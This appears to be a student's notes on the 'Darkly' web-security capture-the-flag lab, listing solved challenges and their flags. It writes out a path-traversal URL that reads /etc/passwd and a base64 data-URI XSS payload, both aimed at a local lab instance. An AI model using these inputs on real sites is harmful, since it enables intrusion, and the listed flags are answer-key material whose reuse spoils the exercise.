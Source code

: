 # darkly

Open your web browser <br>

```c
Faire une redirection de port

Network Advanced 
Host ip: 127.0.0.1
Host port: 8080
Guest ip : 10.0.2.15
Gest Port 80

```

```c
1.✅
Forget Password
button submit , j'ai mit envoyer a mon adresse 
The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0

2.✅
Le site est mal sécurisé car le code PHP ne vérifie pas ce que tu demandes dans l'URL.
http://localhost:8080/index.php?page=../../../../../../../etc/passwd
The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 

3.✅

http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGFja2VkIik8L3NjcmlwdD4=
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

Quand j'accede a cette page :
http://localhost:8080/index.php?page=media&src=...
le site decode la valeur de src.

on dit au navigateur du code base64
data:text/html;base64
on a encoder un alert() qui declenche un script cachet.

```


4.❌
```c



```
















https://github.com/ChokMania/Darkly/blob/master/10-XSS_Reflected_Cross-site_Scripting/Ressources/explications.md




```
